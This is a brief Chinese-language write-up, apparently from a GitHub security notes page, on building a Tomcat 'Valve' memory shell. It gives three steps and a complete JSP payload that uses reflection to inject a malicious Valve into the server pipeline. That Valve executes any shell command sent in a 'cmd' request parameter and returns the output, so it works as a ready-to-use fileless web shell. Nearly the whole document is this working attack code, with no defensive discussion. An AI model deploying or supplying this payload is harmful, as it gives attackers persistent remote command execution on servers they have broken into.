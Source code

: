 #### jsp内存马

反射获取四大组件，然后调用addValve方法添加恶意Valve，之后发起请求即可触发

**Valve内存马实现步骤：**
1. 获取StandardContext
2. 继承并编写一个恶意Valve
3. 调用standardContext.getPipeline().addValve()添加恶意valve实例


```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    try {
        ServletContext servletContext = request.getSession().getServletContext();
        Field appctx = servletContext.getClass().getDeclaredField("context");
        appctx.setAccessible(true);
        ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
        Field stdctx = applicationContext.getClass().getDeclaredField("context");
        stdctx.setAccessible(true);
        StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

        ValveBase valve = new ValveBase() {
            @Override
            public void invoke(Request request, Response response){
                try{
                    String cmd = request.getParameter("cmd");
                    if(cmd != null){
                        boolean isLinux = true;
                        String osTyp = System.getProperty("os.name");
                        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                            isLinux = false;
                        }
                        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                        InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                        Scanner s = new Scanner(in).useDelimiter("\\a");
                        String output = s.hasNext() ? s.next() : "";
                        PrintWriter out = response.getWriter();
                        out.println(output);
                        out.flush();
                        out.close();
                    }
                    this.getNext().invoke(request, response);
                }catch(Exception e){
                }

            }
        };
        standardContext.getPipeline().addValve(valve);
        response.getWriter().write("Success");
    } catch (Exception e) {
        e.printStackTrace();
    }
%>
```